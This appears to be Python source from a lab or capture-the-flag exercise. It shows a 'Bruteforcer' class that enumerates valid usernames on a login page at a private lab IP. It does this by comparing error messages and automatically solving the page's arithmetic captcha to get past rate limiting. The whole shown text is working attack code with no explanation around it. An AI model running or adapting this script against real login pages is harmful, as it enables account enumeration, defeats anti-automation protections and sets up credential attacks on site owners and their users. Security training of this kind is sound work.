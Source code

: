 ```py
        try:
            with open(self.usernameWordlist, 'r') as file:
                for line in file:
                    username = line.strip()
                    listUsernames.append(username)

                return listUsernames
        except FileNotFoundError:
            print(f'The file {self.usernameWordlist} doesn\'t exist.')

    def enumerateUsernameRequest(self, username):
        payload = {
            'username': username,
            'password': 'anything'
        }
        usernameRequest = requests.post(self.url, data=payload)
        isRateLimited = 'Too many bad login attempts!' in usernameRequest.text and 'The user' not in usernameRequest.text
        if isRateLimited:
            soup = BeautifulSoup(usernameRequest.text, 'html.parser')
            # grab pattern like '342 - 47'. Generated from ChatGPT
            pattern = r'(\d+\s*.\s*\d+)'
            captchaMatched = re.search(pattern, soup.text)
            if not captchaMatched:
                print('[-] No captcha found.')

            equation = captchaMatched.group(0)
            answer = sympy.sympify(equation)
            self.afterSolvedCaptchaRequest(username, answer)
            return

        isValidUser = not 'The user' in usernameRequest.text
        if isValidUser:
            print(f'[+] Found valid username: {username}')

    def afterSolvedCaptchaRequest(self, username, answer):
        payload = {
            'username': username,
            'password': 'anything',
            'captcha': answer
        }
        usernameRateLimitedRequest = requests.post(self.url, data=payload)
        isInvalidCaptcha = 'Invalid captcha' in usernameRateLimitedRequest.text
        isValidUser = not 'The user' in usernameRateLimitedRequest.text
        if isInvalidCaptcha:
            print('[-] Captcha failed.')
        if isValidUser:
            print(f'[+] Found valid username: {username}')

if __name__ == '__main__':
    url = 'http://10.10.2.194/login'
    usernameWordlist = 'usernames.txt'
    bruteforcer = Bruteforcer(url, usernameWordlist)

    bruteforcer.enumerateUsername()
```
